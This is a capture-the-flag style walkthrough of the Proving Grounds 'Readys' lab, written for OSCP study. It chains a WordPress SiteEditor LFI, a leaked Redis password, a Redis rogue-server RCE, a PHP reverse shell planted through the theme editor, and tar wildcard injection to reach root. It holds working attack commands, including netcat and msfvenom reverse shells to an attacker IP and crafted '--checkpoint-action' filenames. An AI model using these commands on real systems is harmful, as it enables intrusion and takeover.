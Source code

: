 ```yaml
---
title: Readys Walkthrough - Proving grounds
tags: Redis Wildcard WordPress
categories: Linux
---
```

In this entry I will solve PG's Readys machine. It is an Linux machine in the [TJNull](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview) list. My purpose in sharing this post is to prepare for OSCP exam. It is also to show you the way if you are in trouble. Please try to understand each step and take notes.

# Port and service enum

`nmap -sC -sV -p22,80,6379 192.168.223.166 -Pn -o targeted.txt`

![c5391e4051b28caa4a2edecf56afeb50.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/c5391e4051b28caa4a2edecf56afeb50.png?raw=true234)

By visiting http[:]//192.168.223.166/ I find wordpress running so I run wpscan.

## Wordpress enumeration

`wpscan -e --url http[:]//192.168.223.166/`

![6b16ef438cdc9c202a84aab24c57591c.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/6b16ef438cdc9c202a84aab24c57591c.png?raw=true)

The website discloses the admin user. I try to bruteforce the user runing wpscan

`wpscan -e --url http[:]//192.168.223.166/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt`

## Redis enumeration

While the attack is running I check redis, I try to connect and get some info but authentication is required

`redis-cli -h 192.168.223.166`

![eae720747869812f3e7085d2ea0789d1.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/eae720747869812f3e7085d2ea0789d1.png?raw=true)

## Back to WP

Going back to the WordPress site, inspecting the source code I find SiteEditor plugin.

![6076885f10b4dcfbd3a4a4fa8223dc2f.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/6076885f10b4dcfbd3a4a4fa8223dc2f.png?raw=true)

I google for any exploit and I find a possible LFI https://www.exploit-db.com/exploits/44340

`[http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/passwd](http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/passwd)`

![768b40cdbb003c2ea7b4e4fdace55e0e.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/768b40cdbb003c2ea7b4e4fdace55e0e.png?raw=true)

## Back to redis

As redis is running, I try to read redis configuration file, under /etc/redis https://stackoverflow.com/questions/32284494/where-is-the-data-directory-in-redis.

[http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/redis/redis.conf](http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/redis/redis.conf)

I find a possible username for Redis service

![d744357582946f7c99ae541cf13d1163.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/d744357582946f7c99ae541cf13d1163.png?raw=true)

By typing `AUTH Ready4Redis?` I  get the Redis version: 5.0.14.

![532c82325e1499468947b4b2d704e4bd.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/532c82325e1499468947b4b2d704e4bd.png?raw=true)

# Getting a shell

After googling for the version  I came out that this version is vulnerable to RCE . In this case I use the following [exploit](https://github.com/n0b0dyCN/redis-rogue-server). If fails try again :)

![7c570a5c9b43f3201629238e63a2bbf6.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/7c570a5c9b43f3201629238e63a2bbf6.png?raw=true)

I get a TTY through `python3 -c "import pty; pty.spawn('/bin/bash')".` After that I search for the mysql database credentials in `/var/www/html/wp-config.php`

![63258e92a72d7fe42dd95cb11f310676.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/63258e92a72d7fe42dd95cb11f310676.png?raw=true)

# MySQL

I connect to mysql and then I dump admin's credentials:

`mysql -u karl -p` Then paste the password found on wp-config.php

`show databases;`

`use wordpress;`

`select * from wp_users;`

![569b714daa20fc604f40c8e724b95821.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/569b714daa20fc604f40c8e724b95821.png?raw=true)
I try to crack the hash but I do not get any result, so I update admin's password in mysql databse, for that I use [wodpress hash generator](https://www.useotools.com/wordpress-password-hash-generator/.) tool

![bf64b842a1784c3b54a9d96863a1e8a9.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/bf64b842a1784c3b54a9d96863a1e8a9.png?raw=true)

By typing the desired password, the tool creates the mysql command to update the user's password. **Remember to rename your_user_name by 'admin' and add ";" **

``UPDATE `wp_users` SET `user_pass` = '``$P$`BxLKwoTitAjOYxf8iHcDrx0Z3ksN8v/' WHERE user_login = 'admin';`

![8228a5ec0cb9527c65914d3086843920.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/8228a5ec0cb9527c65914d3086843920.png?raw=true)

# WordPress Exploitation

After that I log in to the WordPress admin portal, with admin:admin

Go to Appearance -->Theme editor. (I am using twentytwenty template)

![4748cfa6680b70d337cf2ec9c3839b69.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/4748cfa6680b70d337cf2ec9c3839b69.png?raw=true)

Edit 404.php file and copy [pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or generate one with msfvenom:

msfvenom -p php/reverse_php LHOST=192.168.45.159 LPORT=88 -f raw > reverse.php

Then trigger the exploit by visiting [http[:]//192.168.223.166/wp-content/themes/twentytwenty/404](http[:]//192.168.223.166/wp-content/themes/twentytwenty/404.php)

# Privilege Escalation

After getting the shell I check crontab and a backup.sh file is running.

![6d43ef534744f360c62594fb2eb4963b.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/6d43ef534744f360c62594fb2eb4963b.png?raw=true)

Reading the backup file is seems that the script uses "tar" command

![f38f9eb8b8230c5bc6e76be24955b121.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/f38f9eb8b8230c5bc6e76be24955b121.png?raw=true)

### Wildcard for Privilege Escalation

The tar command in that script is using a wildcard to backup all files

First, I will create a reverse shell called "shell.sh" using netcat

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.10.10.10 4445 >/tmp/f" > shell.sh`

The following commands will create two empty files with the names: “–checkpoint-action=exec=sh shell.sh” and “–checkpoint=1”. These file names will be interpreted by Tar as switches when Tar attempts to bundle them. Once –checkpoint=1 is invoked tar will look for any possible actions to take. In this case that action will be to execute “sh shell.sh”.

`echo "" > "--checkpoint-action=exec=sh shell.sh"`

`echo "" > --checkpoint=1`

Finally, a netcat listener is created on the Kali machine on port 4445. Since the cronjob on the victim machine runs every two minutes the netcat listener will receive a connection within that amount of time and then spawn a shell as the root user.

Wait to the crontab and get the shell as root

![ef8bce19d64b5cc79ead44d0d007ed59.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/ef8bce19d64b5cc79ead44d0d007ed59.png?raw=true)

Pwn3d! :D
